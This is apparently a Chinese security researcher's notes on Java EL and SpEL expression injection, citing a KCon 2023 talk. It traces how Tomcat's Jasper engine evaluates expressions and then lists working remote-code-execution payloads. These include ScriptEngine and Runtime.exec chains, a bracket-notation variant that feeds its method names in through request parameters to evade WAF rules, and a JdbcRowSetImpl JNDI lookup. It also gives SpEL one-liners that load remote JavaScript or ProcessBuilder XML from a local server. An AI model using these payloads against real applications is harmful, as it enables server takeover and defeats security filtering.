

# EL in JSP

为了简化 JSP 页面，JSP 2.0 新增了 EL（Expression Language）表达式语言 `${EL表达式}`

Tomcat、Weblogic、Jetty等Web容器均支持EL表达式

若EL表达式没有生效，需要开启EL表达式

* 法一：将 page 指令中的 `isELIgnored` 属性设置为 false

  `<%@ page isELIgnored="false" %>`

* 法二：`web.xml` 中配置 `<el-ignored>` 元素

  ```xml
  <jsp-property-group>
      <url-pattern>*jsp</url-pattern>
      <el-ignored>false</el-ignored>
  </jsp-propery-group>
  ```

EL表达式中有很多内置对象

| 内置对象         | 说明                                                         |
| :--------------- | ------------------------------------------------------------ |
| pageScope        | 获取 page 范围的变量                                         |
| requestScope     | 获取 request 范围的变量                                      |
| sessionScope     | 获取 session 范围的变量                                      |
| applicationScope | 获取 application 范围的变量                                  |
| param            | 相当于 request.getParameter(String name)，获取单个参数的值   |
| paramValues      | 相当于 request.getParameterValues(String name)，获取参数集合中的变量值 |
| header           | 相当于 request.getHeader(String name)，获取 HTTP 请求头信息  |
| headerValues     | 相当于 request.getHeaders(String name)，获取 HTTP 请求头数组信息 |
| initParam        | 相当于 application.getInitParameter(String name)，获取 web.xml 文件中的参数值 |
| cookie           | 相当于 request.getCookies()，获取 cookie 中的值              |
| pageContext      | 表示当前 JSP 页面的 pageContext 对象                         |

EL表达式不仅可以以文本元素的形式出现，也可以出现在Jsp标签中

## Jsp vs El

相比Jsp，EL表达式的执行会更加灵活

* work✔️

> <%
>
> ((ScriptEngineManager)"".getClass().*forName*("javax.script.ScriptEngineManager").newInstance()).getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('calc')");
>
> %>

* fail✖️

>  <%  "".getClass().*forName*("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('calc')");
>
> %>
>
> The method getEngineByName(String) is undefined for the type

* work✔️

> ${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('calc')")}

可见EL表达式能够自动进行类型转换，下面看看Tomcat内置的JSP引擎——Apache Jasper如何执行EL表达式

## Method Call

`org.apache.jasper.runtime.PageContextImpl#proprietaryEvaluate`

​		-> `org.apache.el.ExpressionFactoryImpl#createValueExpression`

​			对EL表达式进行AST解析，以点号进行分割

​			

​	-> `org.apache.el.ValueExpressionImpl#getValue`

​		-> `org.apache.el.parser.AstValue#getValue`

​			判断当前是方法调用，则获取下一个`AstMethodParameters`节点作为方法调用参数。每轮解析后都会更新base，作为下一轮方法调			用或成员获取的对象。

​			

​			-> `org.apache.jasper.el.JasperELResolver#invoke`

​				对于不同类型的节点有不同的resolver来处理

​				

​				处理成功会调用`context.setPropertyResolved(true);`

​				外边通过判断`context.isPropertyResolved()`决定是否继续尝试解析。若处理失败直接返回null

​				

​				这边最后通过`BeanELResolver`进行解析，通过反射调用方法

​				

由于是链式的反射调用，每次更新的base都有明确的类型，因此不需要强制转换类型

上面的点调用中方法节点为`AstDotSuffix`，`SimpleNode`的子类还有一个suffix，`AstBracketSuffix`，即用方括号调用函数

直接贴张Kcon的图


这种调用方式让方法以字符串的形式出现，可以把用调用的参数通过外部参数传入，实现更隐蔽的EL执行

> `${""[param.a]()[param.b](param.c)[param.d]()[param.e](param.f)[param.g](param.h)}`

> a=getClass&b=forName&c=javax.script.ScriptEngineManager&d=newInstance&e=getEngineByName&f=js&g=eval&h=java.lang.Runtime.getRuntime().exec('calc')

## Getter & Setter

EL表达式不支持`Object a = xxx`来存储临时局部变量。可以利用内置对象来存储。

并且点号属性取值相当于执行对象的getter方法，等号属性赋值则等同于执行setter方法

> ${
>
> pageContext.setAttribute("obj", "".getClass().forName("com.sun.rowset.JdbcRowSetImpl").newInstance());
>
> pageContext.getAttribute("obj").dataSourceName="ldap://127.0.0.1:8099/a";
>
> pageContext.getAttribute("obj").autoCommit=true
>
> }

> `org.apache.el.parser.AstAssign#getValue`
>
>   -> `org.apache.el.parser.AstValue#getValue`
>
> ​    -> `org.apache.el.parser.AstValue#setValue`
>
> ​      -> `javax.el.CompositeELResolver#setValue`
>
> ​	    -> `javax.el.BeanELResolver#setValue`


# Niche Exploitation

小众宝藏利用类挖掘：

* 不在WAF规则集中
* 一句话的链式调用，兼容不支持多句的表达式
* 通用不依赖第三方包

## js执行

`com.sun.tools.script.shell.Main#main`

```java
public static void main(String[] args) {
    // parse command line options
    String[] scriptArgs = processOptions(args);
    // process each script command
    for (Command cmd : scripts) {
        cmd.run(scriptArgs);
    }
    System.exit(EXIT_SUCCESS);
}
```


最后遍历scripts，执行`addStringSource`实现的`Command`类的run方法


最后调用到`NashornScriptEngine#eval`

```java
com.sun.tools.script.shell.Main.main(new String[]{
    "-e", makeJsRuntimeExecPayload("calc")
});
public static String makeJsRuntimeExecPayload(String cmd) {
    return "var strs=new Array(3);" +
        "if(java.io.File.separator.equals('/')){" +
        "strs[0]='/bin/bash';" +
        "strs[1]='-c';" +
        "strs[2]='" + cmd + "';" +
        "}else{" +
        "strs[0]='cmd';" +
        "strs[1]='/C';" +
        "strs[2]='" + cmd + "';" +
        "}" +
        "java.lang.Runtime.getRuntime().exec(strs);";
}
```

第二个参数换成`load('http://127.0.0.1:9999/1.js')`可加载远程js

显然比起直接传递恶意js，`load`显得相对隐蔽，缺点就是需要出网。

SpEL表达式：

> T(com.sun.tools.script.shell.Main).main(new String[]{"-e", "load('http://127.0.0.1:9999/1.js')"})

## 远程加载xml

`javax.swing.plaf.synth.SynthLookAndFeel#load`

SpEL表达式

> new javax.swing.plaf.synth.SynthLookAndFeel().load(new java.net.URL("http://127.0.0.1:9999/1.xml"))

```xml
<new class="java.lang.ProcessBuilder">
	<string>calc</string>
	<object method="start"></object>
</new>
```

# Reference

2023KCon 《Java表达式攻防下的黑魔法》
